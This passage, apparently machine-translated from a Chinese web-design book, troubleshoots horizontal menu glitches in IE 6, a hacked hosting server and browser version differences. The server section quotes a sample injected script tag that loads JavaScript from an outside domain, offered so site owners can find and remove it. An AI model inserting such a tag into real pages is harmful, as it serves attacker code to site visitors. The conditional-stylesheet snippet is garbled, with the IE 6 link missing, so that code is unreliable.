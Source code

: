 ### 如果有横向菜单问题

以下是两个最常见的水平菜单问题:

> 1.  One of the buttons dropped, especially when viewed in Internet Explorer 6.
> 2.  One button increases the depth, or one button becomes two buttons.

这些故障如[图 19-1](#fig_19_1) 所示。

![images](img/9781430242758_Fig19-01.jpg)

***图 19-1。**首页按钮有故障的横向菜单*

这些故障也可能是由 IE 6 引起的，因为它使用的默认字体比任何其他浏览器都大。较大的字体扩大了按钮的宽度，因此菜单对于其容器来说太宽了。为了解决这个问题，你只需要为 IE 6 指定一个较小的字体。创建一个名为`ie6style.css`的特殊附加样式表。它只需要包含来自`mainstyle.css`的`#`容器或#菜单代码，但是将它的字体大小从中等改为较小，如下面的粗体所示:

`#container{text-align:center; background-color:#D7FFEB; font-family: "times new roman";
   **font-size: small;** color: #000000; margin: auto; width:95%;}`

在 HTML 的 head 部分，插入一个条件链接(以粗体显示)。将它放在其他链接的下面，如下面的代码片段所示。

`<head>
<title>Home page …</title>
*meta details go here*
<link rel="stylesheet" type="text/css" href="mainstyle.css" media="screen">
****
<link rel="stylesheet" type="text/css" href="print.css" media="print">
</head>`

还有另外两个问题需要考虑。弱视用户可以用自己的样式表增加字体大小。请注意这一点，并尝试在按钮上为更大的文本尺寸留出足够的空间。

如果水平菜单拒绝在页面上居中，确保在样式表中将`<ul>`块的容器设置为`text-align:center;`。

### 如果你的服务器有问题

反病毒警报:“威胁被阻止。”这是一个真正的警报，因为您没有故意在您的网站中构建任何恶意软件。但是一些卑鄙的家伙入侵了你的网站，并在一个或多个页面中插入了一些 JavaScript 代码。使用您的 FTP 程序下载页面，并查找 JavaScript 片段。流氓脚本通常位于标签`<body>`之后。

典型的流氓脚本如下所示:

`<!-- ad --><script language='JavaScript' src='http://powergym.be/xxxxfs31dj.js'>![images](img/U002.jpg)
</script>`

这种情况不会发生在像样的主机上，但偶尔会发生在安全意识较差的主机上。作为预防措施，请始终使用包含特殊字符和数字的更长、更复杂的密码。但是，如果问题已经发生，补救措施是登录到主机上的控制面板，将 FTP 密码更改为更复杂的密码。然后使用您的 FTP 客户端上传所有受感染页面的干净副本。然后联系主机大声抱怨，直到它让它的服务器更安全。

如果主机服务器突然不接受你的 FTP 密码，可能是因为上一段描述的同样的问题；解决方法是一样的。

### 如果您遇到浏览器变异问题

如果您的页面在一个或多个浏览器中显示不正确，不要认为问题是您的错。我花了两个小时追踪一个问题，结果发现是 Mozilla Firefox 的一个 bug。最右边的列显示在中间的容器中。一次偶然的机会，我在另一台使用火狐浏览器的电脑上查看了这个页面，它没有问题。答案？每台电脑都有不同版本的 Firefox。旧的火狐版本是问题所在；通过更新到最新版本，页面显示正确。总是在浏览器的最新版本和之前的版本上进行测试。

